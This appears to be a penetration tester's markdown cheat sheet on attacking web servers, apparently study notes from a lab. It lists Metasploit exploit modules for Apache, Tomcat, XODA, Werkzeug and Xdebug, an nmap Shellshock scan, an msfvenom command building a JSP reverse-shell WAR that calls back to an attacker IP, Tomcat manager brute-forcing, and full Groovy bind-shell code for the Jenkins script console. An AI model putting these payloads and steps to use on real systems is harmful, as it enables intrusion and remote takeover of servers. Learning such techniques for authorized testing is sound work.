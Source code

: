 # HTTP 

- port:80
- Example services: Apache httpd 2.4.6 
- apache default data storage location - /var/www
- run dirb on url

## Metasploit
- shellshock vuln - exploit/multi/http/apache_mod_cgi_bash_env_exec
	- nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3
	
	![http-shellshock script output](./images/http-01.png)

- xoda file upload vuln - exploit/unix/webapp/xoda_file_upload - set TARGETURI /
- exploit/unix/http/xdebug_unauth_exec : to exploit apache httpd 2.4.7
- exploit/multi/http/glassfish_deployer
- exploit/multi/http/tomcat_jsp_upload_bypass (apache tomcat v8.5.19 is vuln)
	- check
- exploit/unix/webapp/xoda_file_upload
- exploit/linux/http/vcms_upload
- exploit/multi/http/werkzeug_debug_rce
- auxiliary/scanner/http/tomcat_mgr_login : brute-force on apache tomcat/ jsp engine 1.1 - if /manager url is available
	- msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.73.96.2 LPORT=443 -f war > shell.war file shell.war
	- upload it and deploy then access on webbrowser while having a listener opened
- jenkins can be exploited using its dashboard > manage jenkins > script console
	- groovy shellcode to create a bind shell-
		int port=5555;
		String cmd="/bin/bash";
		Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
		Socket s = new java.net.ServerSocket(port).accept()
		InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
		OutputStream po=p.getOutputStream(),so=s.getOutputStream();
		while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
	- ref : https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell
	
	![proxychains output](./images/http-02.png)
	![exploitation success output](./images/http-03.png)
